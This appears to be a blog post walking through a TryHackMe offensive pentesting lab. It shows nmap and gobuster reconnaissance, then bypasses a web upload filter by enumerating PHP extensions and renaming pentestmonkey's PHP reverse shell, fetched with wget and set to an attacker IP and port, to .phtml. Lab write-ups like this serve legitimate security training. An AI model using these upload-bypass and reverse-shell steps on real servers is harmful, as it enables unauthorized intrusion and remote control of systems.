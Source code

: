 ```yaml
---
layout: post
title:  "TryHackMe Offensive Pentesting Path"
date:   2021-09-08
categories: 
---
```


{% capture details %}
* **Scan Target:** 
	* <code class="custom">
$ nmap -sV 0.0.0.0 <br>
-sV: Probe open ports to determine service/version info <br>
-0.0.0.0: IP address of target
</code>

	* | PORT | STATE | SERVICE | VERSION |
|:-----|:------|:--------|:--------|
| 3333/tcp | open | http | Apache httpd 2.4.18 ((ubuntu)) |
{: .customTable}

* **Discover Directories**
	* <code class="custom">
$ gobuster dir -u http://0.0.0.0:3333 -w /usr/share/wordlists/dirb/common.txt <br>
-u: Target URL <br>
-w: Wordlist
</code>

	* | DIRECTORY | STATUS |
|:----------|:-------|
|/internal  | 301    |
{: .customTable}

* **Visit URL**
	* ![Target URL Port 3333](/assets/targetPort3333.png){: .customImage}
{% endcapture %}
{: .section}
{% capture summary %} 
### Reconnaissance :artificial_satellite:
{% endcapture %}{% include details.html %}

{% capture details %}
* Create and attempt to upload file with *.php* extension
	* ![Upload shell.php](/assets/uploadShellphp.png)

* Create custom extension-list to test what file extensions can be uploaded
	*  <code class="custom">
$ cat phpext.txt <br>
.php <br>
.php3 <br>
.php4 <br>
.php5 <br>
.phtml 
</code>

* Use Burp Suite to enumerate through extensions and find out which ones are allowed

* Get PHP Reverse Shell from *pentestmonkey*
	* <code class="custom">
$ wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php <br><br>
Modify 'ip' and 'port' variables to your host machine's IP and netcat port you will use, respectively <br>
$ip = '127.0.0.1';  // CHANGE THIS <br>
$port = 1234;       // CHANGE THIS <br>
</code>

* Rename reverse shell file extension to allowed extension
	* <code class="custom">
$ mv php-reverse-shell.php php-reverse-shell.phtml
</code>

{% endcapture %}
{: .section}
{% capture summary %} 
### Compromise Webserver
{% endcapture %}{% include details.html %}